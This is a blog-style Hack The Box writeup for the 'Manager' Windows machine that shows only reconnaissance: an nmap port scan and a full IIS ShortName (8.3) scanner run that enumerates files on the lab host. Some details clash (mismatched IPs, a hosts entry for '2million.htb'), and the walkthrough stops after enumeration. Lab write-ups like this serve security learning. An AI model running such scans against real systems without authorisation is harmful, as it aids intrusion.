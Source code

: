 ```yaml
---
layout: post
title: Manager HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,windows]
img_path: /images/htb/medium/manager/
image:
  path: icon.png
---
```


My first ever windows machine... Wish me luck!

**Machine created by:** [Geiseric](https://app.hackthebox.com/users/184611)

## Recon

Let's start with a port scan:

```
$ sudo nmap 10.10.11.221 --top-ports 2500
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-05 21:18 AEDT
Nmap scan report for 10.10.11.236
Host is up (0.046s latency).
Not shown: 2486 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```

Let's setup an entry in `/etc/hosts`

```
10.10.11.221 2million.htb
```

Visiting [10.10.11.236:80](http://10.10.11.236:80/) shows a basic IIS 10.0 server.

After some looking at IIS vulnerabilities, I found the webserver is vulnerable [IIS ShortName](https://github.com/irsdl/IIS-ShortName-Scanner).

```
java -jar iis_shortname_scanner.jar 2 20 http://10.10.11.236/
useProvidedUrlWithoutChange: false
magicFileName: *~1*
requestMethodDelimiter: ,
requestMethod: OPTIONS,POST,DEBUG,TRACE,GET,HEAD
nameStartsWith: Default
extStartsWith: Default
hassleFree: false
cookies: Default
outputFile: iis_shortname_scanner_logfile.txt
proxyServerName: Default
acceptableDifferenceLengthBetweenResponses: 5
proxyServerPort: Default
magicFinalPartList: /~1/.rem,/~1/,\a.aspx,\a.asp,/a.aspx,/a.asp,/a.shtml,/a.asmx,/a.ashx,/a.config,/a.php,/a.jpg,/webresource.axd,/a.xxx
minVulnerableCheckRepeat: 3
headersDelimiter: @@
saveOutput: false
maxNumericalPart: 4
headers: Default
debug: false
maxConnectionTimeOut: 60000
magicFinalPartDelimiter: ,
forceNumericalPart: 1
userAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
inScopeCharacters: ETAONRISHDLFCMUGYPWBVKJXQZ0123456789_-$~()&!#%'@^`{}
ignoreHeaderLevel: 2
asteriskSymbol: *
showActualNames: true
maxRetryTimes: 10
maxDelayAfterEachRequest: 1
URLSuffix: Default
magicFileExtension: *
questionMarkSymbol: ?
performUrlEncoding: false
ignoreBodyLevel: 1

-- Current Configuration -- Begin
Scan Mode: ALL
Number of threads: 20
Config file: config.xml
Scanner version: 2023.4
-- Current Configuration -- End
Max delay after each request in milliseconds = 1
Do you want to use proxy [Y=Yes, Anything Else=No]? n
No proxy has been used.

Scanning...

Testing request method: "OPTIONS" with magic part: "/~1/.rem" ...
Early result: the target is probably vulnerable.
Early result: identified letters in names > A,B,C,D,E,I,N,O,R,S,T,U,V,W,X
Early result: identified letters in extensions > C,H,I,M,N,O,P,T,Z
File: WEB~1.CON
File: ABOUT~1.HTM
File: CONTAC~1.HTM
File: INDEX~1.HTM
File: SERVIC~1.HTM
File: WEBSIT~1.ZIP
[-] WEBSIT~1.ZIZ
# IIS Short Name (8.3) Scanner version 2023.4 - scan initiated 2024/01/05 21:44:32
Target: http://10.10.11.236/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/.rem
|_ Extra information:
  |_ Number of sent requests: 825
  |_ Identified directories: 0
  |_ Identified files: 6
    |_ ABOUT~1.HTM
      |_ Actual file name = ABOUT
    |_ CONTAC~1.HTM
    |_ INDEX~1.HTM
      |_ Actual file name = INDEX
    |_ SERVIC~1.HTM
    |_ WEBSIT~1.ZIP
    |_ WEB~1.CON
      |_ Actual file name = WEB

Finished in: 7 second(s)
```




![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).